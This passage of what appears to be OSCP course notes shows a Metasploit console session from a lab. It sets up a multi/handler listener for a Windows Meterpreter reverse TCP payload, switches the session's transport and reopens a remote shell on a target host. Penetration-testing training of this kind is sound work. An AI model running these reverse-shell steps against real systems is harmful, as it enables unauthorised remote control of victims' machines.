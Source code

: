 msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4

msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555

msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.4:5555

msf5 exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
[*] 10.11.0.22 - Meterpreter session 5 closed. Reason: User exit

msf5 exploit(multi/handler) >
[*] Meterpreter session 6 opened (10.11.0.4:5555 -> 10.11.0.22:50357)

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

meterpreter >
  
• We successfully switched transports, created a new meterpreter session, and shut down the old one
  
  
  

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/16.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/17.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/18.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/19.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/20.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/21.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/22.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/23.jpg)

22.3.7.1 Exercises
